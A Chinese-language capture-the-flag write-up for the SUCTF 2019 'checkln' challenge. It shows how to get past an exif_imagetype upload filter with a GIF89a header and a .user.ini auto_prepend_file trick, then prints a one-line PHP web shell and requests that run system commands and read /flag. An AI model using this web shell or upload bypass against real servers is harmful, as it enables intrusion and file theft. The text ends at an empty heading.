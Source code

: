 ```yaml
---
layout: post
title: A Example Post
date: 2019-01-01 00:00:00 +0800
category: tutorial
thumbnail: /style/image/thumbnail.png
icon: book
---
```


## [SUCTF 2019]checkln 1

### 1 


进行上传一句话木马转换的图片后，上传了`.htaccess`文件，不过发现被限制了。
返回了一个：
```SQL
exif_imagetype:not image!
```
<a href=https://www.php.net/manual/zh/function.exif-imagetype.php>exif_imagetype函数</a>
简单来说就是，上传文件白名单机制。
QAQ
新英雄登场
`.user.ini`文件
原为php目录配置文件，作用为：
>当我们访问目录中的任何php文件时，都会调用.user.
ini中指的文件以php的形式进行读取。

我们把我们上传的`.user.ini`文件内容写为
```ini
GIF89a
auto_prepend_file=po.jpg
```
之后就可以常规步骤一顿操作，得到flag。

### 2 其他方法 


这里也有了新一种方法`用传进去的cmd 进行RCE`——其前提是传入的木马文件内容为：
```script
GIF89a 
<script language='php'>eval($_REQUEST['cmd']);</script>
```
然后
```cmd
uploads/xxx/index.php?cmd=var_dump(scandir("/")); // 扫描当前目录下的文件，并打印出来

uploads/xxx/index.php?cmd=system('cat /flag');

uploads/xxx/index.php?cmd=var_dump(file_get_contents("/flag"));
```
### 3 RCE 
